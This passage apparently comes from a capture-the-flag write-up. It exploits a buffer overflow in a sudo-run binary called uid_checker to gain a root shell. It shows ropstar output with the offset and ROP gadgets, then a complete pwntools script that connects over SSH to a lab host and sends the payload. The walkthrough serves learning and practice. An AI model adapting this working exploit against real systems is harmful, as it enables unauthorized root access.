 As we can see, calling the `secret()` function will spawn a root shell, but the function is not called anywhere from `main()`. If we want to be able to access it, we'll need a buffer overflow. Let's use `ropstar` to automatically get the information we need:

~~~
kali@kali:/data/src/ropstar$ python3 ropstar.py /data/Dave_s_Blog/files/uid_checker

[REDACTED]

[+] Offset: 88
[*] Checking for leakless exploitation
[*] Using local target
[+] Starting local process '/data/Dave_s_Blog/files/uid_checker' argv=[b'/data/Dave_s_Blog/files/uid_checker'] : pid 6076
[*] Exploit: gets(bss); system(bss)
[*] Loading gadgets for '/data/Dave_s_Blog/files/uid_checker'
[*] 0x0000:         0x400803 pop rdi; ret
    0x0008:         0x601060 [arg0] rdi = 6295648
    0x0010:         0x4005b0
    0x0018:         0x400803 pop rdi; ret
    0x0020:         0x601060 [arg0] rdi = 6295648
    0x0028:         0x400570

[REDACTED]
~~~

Now, let's automate the exploitation with the below python script:

```python
#!/usr/bin/env python3

from pwn import cyclic
from pwnlib.tubes.ssh import ssh
from pwnlib.util.packing import p64

offset = 88
payload = cyclic(offset)
payload += p64(0x400803) # pop rdi; ret
payload += p64(0x601060) # [arg0] rdi = 6295648
payload += p64(0x4005b0)
payload += p64(0x400803) # pop rdi; ret
payload += p64(0x601060) # [arg0] rdi = 6295648
payload += p64(0x400570)

s = ssh(host='10.10.139.182', user='dave')
p = s.process(['sudo', '/uid_checker'])
print(p.recv())
p.sendline(payload)
print(p.recv())
p.sendline("/bin/sh")
p.interactive()
```

Running our script will automatically connect (SSH) to the target, run the program and inject the payload that will overflow it to spawn a shell.
